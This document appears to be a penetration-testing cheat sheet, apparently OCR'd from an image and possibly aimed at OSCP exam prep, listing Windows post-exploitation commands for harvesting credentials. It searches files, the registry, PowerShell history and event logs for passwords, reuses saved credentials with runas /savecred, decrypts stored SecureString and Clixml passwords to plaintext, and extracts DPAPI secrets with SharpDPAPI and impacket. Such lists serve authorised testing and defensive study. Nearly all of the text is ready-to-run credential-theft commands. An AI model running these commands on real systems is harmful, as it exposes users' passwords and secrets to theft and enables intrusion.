 ```powershell

# File Credential
Get-Childitem -Path C:\windows.old -Include *SAM -Recurse -force -ErrorAction SilentlyContinue

findstr /SIM /C:"pass" *.txt *.ini *.cfg *.config *.xml
findstr /spin "password" *.*

where /R C:\ *.config

# savecred
cmdkey /list
runas /savecred /user:oscp\bob "COMMAND HERE"

reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Powershell History
(Get-PSReadLineOption).HistorySavePath

foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

# Powershell Passwsord XML
$credential = Import-Clixml -Path ".\connection.xml"
$credential.GetNetworkCredential().password

$secureString = $credential.Password
$plainTextPassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureString))
echo $plainTextPassword

$password = '01000000d08c9d...';
$secureString = ConvertTo-SecureString $password -Force;
$plainTextPassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureString))

# Eventlog
wevtutil qe Security /rd:true /f:text | Select-String "/user"

# install Service
wmic product get name

# Port
netstat -ano
tasklist /svc /FI "PID eq 336"

# Writeable folder
icacls C:\xampp\

# dpapi
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
dir C:\Users\USER\AppData\Roaming\Microsoft\Protect\
dir C:\Users\USER\AppData\Local\Microsoft\Protect\
.\SharpDPAPI.exe triage
## decrypt
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'pass' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
impacket-dpapi credential -f C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fb

.\SharpDPAPI.exe credentials /password:'pass' /unprotect
```
